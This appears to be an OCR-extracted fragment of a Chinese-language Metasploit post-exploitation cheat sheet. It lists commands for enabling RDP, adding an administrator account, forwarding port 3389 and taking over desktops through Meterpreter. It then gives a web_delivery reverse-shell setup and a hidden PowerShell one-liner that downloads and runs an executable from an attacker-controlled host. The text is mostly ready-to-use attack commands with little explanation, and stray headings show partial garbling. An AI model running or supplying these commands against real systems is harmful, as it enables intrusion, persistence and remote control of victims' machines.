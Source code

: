 
#### 哈希传递

> 
<h3>2.5、RDP</h3>
<h4>开启3389</h4>
通过enable_rdp脚本将用户添加到远程桌面用户组和管理员用户组
<pre><code>run post/windows/manage/enable_rdp   #开启远程桌面
run post/windows/manage/enable_rdp USERNAME=admin PASSWORD=admin #添加用户
run post/windows/manage/enable_rdp FORWARD=true LPORT=6667       #将3389端口转发到6667
</code></pre>
<hr/>
<h4>远程桌面</h4>
<pre><code>enumdesktops  #查看可用的桌面
getdesktop    #获取当前meterpreter 关联的桌面
setdesktop    #设置meterpreter关联的桌面  -h查看帮助
run vnc       #使用vnc远程桌面连接
rdesktop 127.0.0.1:1111   #需要输入用户名密码连接
rdesktop -u Administrator -p 123 127.0.0.1:1111  #-u 用户名 -p 密码
</code></pre>


#### 远程桌面

> 
<h3>2.6、后门植入</h3>
<h4>Powershell后门</h4>
<pre><code>use exploit/multi/script/web_delivery
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.183.147
set LPORT 2334
set srvport 2333
set uripath /
set target 5
run

在目标设备cmd上执行以下命令即可反弹
powershell.exe -nop -w hidden -c $z="echo ($env:temp+'\eJedcsJE.exe')"; (new-object System.Net.WebClient).DownloadFile('http://192.168.183.147:2333/', $z); invoke-item $z
</code></pre>


（注：命令来源于网络）
